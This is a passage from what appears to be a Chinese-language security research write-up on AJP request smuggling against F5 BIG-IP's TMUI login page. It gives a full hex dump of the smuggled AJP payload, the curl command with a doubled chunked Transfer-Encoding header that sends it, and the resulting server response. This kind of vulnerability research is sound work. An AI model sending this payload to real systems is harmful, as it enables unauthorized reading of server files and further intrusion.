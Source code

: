 作为第一步，[RicterZ 的博客文章](https://ricterz-me.translate.goog/posts/2022-03-03-a-new-attack-method-ajp-request-smuggling.txt?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp)中获取了示例AJP有效负载实现，并将其指向我们知道会公开暴露的 URL——登录页面。

```plain
$ xxd raw.dat
00000000: 0008 4854 5450 2f31 2e31 0000 012f 0000  ..HTTP/1.1.../..
00000010: 0931 3237 2e30 2e30 2e31 00ff ff00 0161  .127.0.0.1.....a
00000020: 0000 5000 0000 0a00 216a 6176 6178 2e73  ..P.....!javax.s
00000030: 6572 766c 6574 2e69 6e63 6c75 6465 2e72  ervlet.include.r
00000040: 6571 7565 7374 5f75 7269 0000 012f 000a  equest_uri.../..
00000050: 0022 6a61 7661 782e 7365 7276 6c65 742e  ."javax.servlet.
00000060: 696e 636c 7564 652e 7365 7276 6c65 745f  include.servlet_
00000070: 7061 7468 0001 532f 2f2f 2f2f 2f2f 2f2f  path..S/////////
00000080: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000090: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000c0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000d0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000e0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000f0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000100: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000110: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000120: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000130: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000140: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000150: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000160: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000170: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000180: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000190: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001c0: 2f2f 2f2f 2f2f 2f2f 2f2f 000a 001f 6a61  //////////....ja
000001d0: 7661 782e 7365 7276 6c65 742e 696e 636c  vax.servlet.incl
000001e0: 7564 652e 7061 7468 5f69 6e66 6f00 0010  ude.path_info...
000001f0: 2f57 4542 2d49 4e46 2f77 6562 2e78 6d6c  /WEB-INF/web.xml
00000200: 00ff
$ curl -k -i http://our.f5.ami.ip:8443/tmui/login.jsp -H 'Transfer-Encoding: chunked, chunked' --data-binary @raw.dat
```

当我们第一次发送此有效负载时，服务器返回登录页面，这是正常且预期的响应。然后，我们利用先进的渗透测试技能多次重新运行curl命令，因为有时漏洞研究会多次执行相同的操作，但会以某种方式得到不同的结果。

在几次curl 请求之后，会偶尔收到 404 Not Found 响应。因此我们反编译了相关的 Apache .so 模块，并将其实现与修补后的 httpd 源代码进行了比较。

在这篇博文中，将进一步深入探讨AJP数据包的工作原理，但上面的示例基本与从Tomcat的ROOTwebapp（ 2020 年的默认 [PoCGhostCat 漏洞](https://paper.seebug.org/3066/(https://www.trendmicro.com/en_us/research/20/c/busting-ghostcat-an-analysis-of-the-apache-tomcat-vulnerability-cve-2020-1938-and-cnvd-2020-10487.html%20%22PoCGhostCat%20%E6%BC%8F%E6%B4%9E%22)%EF%BC%89])读取 /WEB-INF/web.xml 的内容相同）。默认情况下，F5-BIGIP 不运行 ROOT Web 应用程序，因此系统返回 404。通过在 `/usr/share/tomcat/webapps/ROOT/WEB-INF/web.xml` 显式创建文件，触发GhostCat的本地文件包含漏洞（LFI）。

```plain
$ curl -k -i https://our.f5.ami.ip:8443/tmui/login.jsp -H 'Transfer-Encoding: chunked, chunked' --data-binary @raw.dat
HTTP/1.1 200 OK
Date: Fri, 08 Sep 2023 19:57:12 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=16070400; includeSubDomains
Accept-Ranges: bytes
ETag: W/"60-1694202750000"
Last-Modified: Fri, 08 Sep 2023 19:52:30 GMT
Content-Type: application/xml
Content-Length: 60
```